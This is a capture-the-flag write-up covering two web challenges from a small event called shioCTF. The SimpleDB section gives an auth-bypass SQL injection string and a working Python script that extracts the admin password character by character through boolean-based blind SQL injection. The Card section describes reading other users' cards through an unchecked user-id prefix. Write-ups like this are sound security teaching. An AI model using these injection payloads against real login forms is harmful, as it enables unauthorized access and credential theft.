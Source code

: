 ```yaml
---
title: "shioCTF"
date: 2024-02-13T08:51:14-03:00
tags:
- CTF
- shioCTF 
---
```


On Monday, February 12th I had the opportunity to participate in [shioCTF](https://ctf.shiosalt.dev), a small CTF with the occasion of celebrating the host's birthday (お誕生日おめでとう！). Below is a short writeup for the two Web challenges in it.

<!--more-->

## SimpleDB
"adminのパスワードを特定してください！" // 
"Please retrieve the admin password"

Inside the given URL we have a simple form with two fields: "Username" and "Password". Throwing some garbage data we see the used DB is `sqlite3`.

Trying a simple SQL Injection with `admin' OR 1=1;--` nets us the message `"Login successful!"`... but that's not what we're here for.

Googling around for some ways to extract information about a field in sqlite3, I came across [this post](https://s-3ntinel.github.io/ctfs/imaginary_ctf2021/web/awkward_bypass/awkward_bypass.html) which seems to describe a similar enough situation calling for a `boolean-based sql injection`.

Copying their code and editing the requests slightly, we end up with:

```python
import requests
import string

db_data = ''
for pos in range(9,32): # we already know the flag starts with shioCTF{
    for char in (string.printable.replace('\'','')): # the ' character threw quite a few errors so I decided to skip it
        p = "\\' OR 1=1 AND (SELECT hex(substr(password," + str(pos) + ",1)) FROM users) = hex('" + str(char) + "');--"
        # here we perform an SQL injection on the password and then include a clause to only get successful logins if the nth character of the password coincides with the currently iterated character
        h = {'Content-Type': 'application/x-www-form-urlencoded'}
        d = {'username': 'admin', 'password': p}
        r = requests.post('http://20.205.137.99:49999/', headers=h, data=d)

        # used while debugging
        # print(char, r.content.decode())
        if 'successful' in r.content.decode():
            db_data += str(char) # append character to our exfiltrated password
            print(db_data)
            break

print('Final: shioCTF{' + db_data + '}')
```

And after letting it iterate over each character we end up with `shioCTF{b1ind_sqli_i5_d4nger0u5!}` as our flag for this challenge.

## Card

"誕生日カードを送り合えるWebアプリができました！" // 
"I made a web app to send birthday cards!"

Going in we have two options, send birthday card and see received birthday cards

Send birthday card presents a form with two fields: "address (cookie emoji)" and "message". 
Checking our local cookies, we see we've been assigned a `userid`, this is probably how we send a card to ourselves.
Trying with an example card, we confirm that indeed by using our `userid` as address we can see our sent cards.

Taking a look at the challenge code, we spot it's a Flask app and it processes sent cards as text inside an XML with `etree`. More importantly, it seems there's some safeguards in place to protect from malicious XML with:

```python
card_data = card_data.replace('&','')

card_data = card_data.replace('%','')
```

At first, I consider trying to find a way to sidestep those safeguards but quickly realize it's getting me nowhere. Changing angles a bit and going back to look at the flask code, there is really no verification at all done on the sent `userid`, the search just picks up the files that start with the given `userid`, meaning we can just send a shorter one like `a` and so on until we get all of the submitted cards.
Doing so, we find the flag to be `shioCTF{UTF7_1s_u5efu1_enc0d1ng}` and finish the Web portion of the CTF.

### Analysis
From the flag text, I'm assuming the expectation was to `UTF7` encode the message in order to get around the replacements for `&` and `%` symbols and attempt an XML External Entity Injection. I'd like to come back to this and try the "correct" solution.

# Conclusion

Overall, the two excercises were fun challenges that brough me back to why I enjoy CTFs: few things come close to the feeling of trying a solution you're not quite sure of and slowly seeing the pieces of the puzzle come into place. Having whet my appetite, I'm looking forward to the next CTF on my radar: Hackthebox's [Cyber Apocalypse 2024](https://www.hackthebox.com/events/cyber-apocalypse-2024)!
